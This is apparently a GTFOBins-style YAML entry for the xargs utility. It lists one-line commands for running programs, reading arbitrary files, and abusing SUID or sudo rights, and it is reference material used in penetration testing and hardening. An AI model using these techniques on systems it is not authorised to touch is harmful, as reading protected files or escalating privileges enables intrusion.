```yaml
---
functions:
  execute-non-interactive:
    - code: xargs -a /dev/null /usr/bin/id
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid-enabled:
    - code: ./xargs -a /dev/null /usr/bin/id
  sudo-enabled:
    - code: sudo xargs -a /dev/null /usr/bin/id
---
```

